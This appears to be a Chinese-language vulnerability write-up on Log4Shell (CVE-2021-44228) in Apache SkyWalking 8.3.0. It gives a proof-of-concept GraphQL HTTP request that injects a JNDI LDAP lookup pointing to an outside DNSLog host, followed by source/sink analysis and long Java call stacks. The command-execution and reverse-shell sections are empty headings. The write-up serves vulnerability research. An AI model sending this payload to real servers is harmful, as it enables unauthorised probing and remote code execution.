



## 相关漏洞

### CVE-2021-44228 RCE via Log4Shell

####  漏洞描述

####  漏洞复现

##### 环境搭建

- https://www.apache.org/dyn/closer.cgi/skywalking/8.3.0/apache-skywalking-apm-8.3.0.tar.gz

下载后

```
./sudo ./startup.sh 
```


如图


注：内置中间件

- Powered by Jetty:// 9.4.28.v20200408

##### 漏洞验证

###### DNSLog

proof of concept

```shell
POST /graphql HTTP/1.1
Host: 10.10.10.139:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 444
Origin: http://10.10.10.139:8080
DNT: 1
Connection: close
Referer: http://10.10.10.139:8080/

{
  "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      ${jndi:ldap://craq3a.dnslog.cn}
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"test",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```




###### 命令执行



###### Reverse Shell


#### 漏洞分析

- 调试模式

- https://www.jianshu.com/p/e70fe8717abf


**log4shell-source**

- org.apache.skywalking.oap.query.graphql.GraphQLQueryHandler#doPost




**log4shell-sink**

- graphql.GraphQL#parseAndValidate
  - org.slf4j.Logger#warn(java.lang.String, java.lang.Object)


调用栈

```java
parseAndValidate:507, GraphQL (graphql)
lambda$parseValidateAndExecute$3:494, GraphQL (graphql)
apply:-1, 361099866 (graphql.GraphQL$$Lambda$138)
get:11, NoOpPreparsedDocumentProvider (graphql.execution.preparsed)
parseValidateAndExecute:490, GraphQL (graphql)
executeAsync:470, GraphQL (graphql)
execute:401, GraphQL (graphql)
execute:93, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:83, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:59, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:707, HttpServlet (javax.servlet.http)
service:107, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:790, HttpServlet (javax.servlet.http)
service:112, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
handle:763, ServletHolder (org.eclipse.jetty.servlet)
doHandle:551, ServletHandler (org.eclipse.jetty.servlet)
nextHandle:233, ScopedHandler (org.eclipse.jetty.server.handler)
doHandle:1363, ContextHandler (org.eclipse.jetty.server.handler)
nextScope:188, ScopedHandler (org.eclipse.jetty.server.handler)
doScope:489, ServletHandler (org.eclipse.jetty.servlet)
nextScope:186, ScopedHandler (org.eclipse.jetty.server.handler)
doScope:1278, ContextHandler (org.eclipse.jetty.server.handler)
handle:141, ScopedHandler (org.eclipse.jetty.server.handler)
handle:127, HandlerWrapper (org.eclipse.jetty.server.handler)
handle:500, Server (org.eclipse.jetty.server)
lambda$handle$1:383, HttpChannel (org.eclipse.jetty.server)
dispatch:-1, 878842527 (org.eclipse.jetty.server.HttpChannel$$Lambda$127)
dispatch:547, HttpChannel (org.eclipse.jetty.server)
handle:375, HttpChannel (org.eclipse.jetty.server)
onFillable:273, HttpConnection (org.eclipse.jetty.server)
succeeded:311, AbstractConnection$ReadCallback (org.eclipse.jetty.io)
fillable:103, FillInterest (org.eclipse.jetty.io)
run:117, ChannelEndPoint$2 (org.eclipse.jetty.io)
runJob:806, QueuedThreadPool (org.eclipse.jetty.util.thread)
run:938, QueuedThreadPool$Runner (org.eclipse.jetty.util.thread)
run:745, Thread (java.lang)
```


**jndi-sink**

- javax.naming.spi.NamingManager#getObjectFactoryFromReference


调用栈

```java
# 执行无参构造方法 & 静态代码块
newInstance:396, Class (java.lang)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
lookup:172, JndiManager (org.apache.logging.log4j.core.net)
lookup:56, JndiLookup (org.apache.logging.log4j.core.lookup)
lookup:183, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1054, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:976, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:872, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:427, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:127, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:333, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:232, PatternLayout (org.apache.logging.log4j.core.layout)
encode:217, PatternLayout (org.apache.logging.log4j.core.layout)
encode:57, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:177, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:170, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:161, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:308, RollingFileAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:448, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:433, LoggerConfig (org.apache.logging.log4j.core.config)
log:417, LoggerConfig (org.apache.logging.log4j.core.config)
log:403, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, AwaitCompletionReliabilityStrategy (org.apache.logging.log4j.core.config)
logMessage:146, Logger (org.apache.logging.log4j.core)
tryLogMessage:2116, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2100, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2011, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1882, AbstractLogger (org.apache.logging.log4j.spi)
warn:244, Log4jLogger (org.apache.logging.slf4j)
parseAndValidate:507, GraphQL (graphql)
lambda$parseValidateAndExecute$3:494, GraphQL (graphql)
apply:-1, 361099866 (graphql.GraphQL$$Lambda$138)
get:11, NoOpPreparsedDocumentProvider (graphql.execution.preparsed)
parseValidateAndExecute:490, GraphQL (graphql)
executeAsync:470, GraphQL (graphql)
execute:401, GraphQL (graphql)
execute:93, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:83, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:59, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:707, HttpServlet (javax.servlet.http)
service:107, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:790, HttpServlet (javax.servlet.http)
service:112, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
handle:763, ServletHolder (org.eclipse.jetty.servlet)
doHandle:551, ServletHandler (org.eclipse.jetty.servlet)
nextHandle:233, ScopedHandler (org.eclipse.jetty.server.handler)
doHandle:1363, ContextHandler (org.eclipse.jetty.server.handler)
nextScope:188, ScopedHandler (org.eclipse.jetty.server.handler)
doScope:489, ServletHandler (org.eclipse.jetty.servlet)
nextScope:186, ScopedHandler (org.eclipse.jetty.server.handler)
doScope:1278, ContextHandler (org.eclipse.jetty.server.handler)
handle:141, ScopedHandler (org.eclipse.jetty.server.handler)
handle:127, HandlerWrapper (org.eclipse.jetty.server.handler)
handle:500, Server (org.eclipse.jetty.server)
lambda$handle$1:383, HttpChannel (org.eclipse.jetty.server)
dispatch:-1, 878842527 (org.eclipse.jetty.server.HttpChannel$$Lambda$127)
dispatch:547, HttpChannel (org.eclipse.jetty.server)
handle:375, HttpChannel (org.eclipse.jetty.server)
onFillable:273, HttpConnection (org.eclipse.jetty.server)
succeeded:311, AbstractConnection$ReadCallback (org.eclipse.jetty.io)
fillable:103, FillInterest (org.eclipse.jetty.io)
run:117, ChannelEndPoint$2 (org.eclipse.jetty.io)
runJob:806, QueuedThreadPool (org.eclipse.jetty.util.thread)
run:938, QueuedThreadPool$Runner (org.eclipse.jetty.util.thread)
run:745, Thread (java.lang)
```

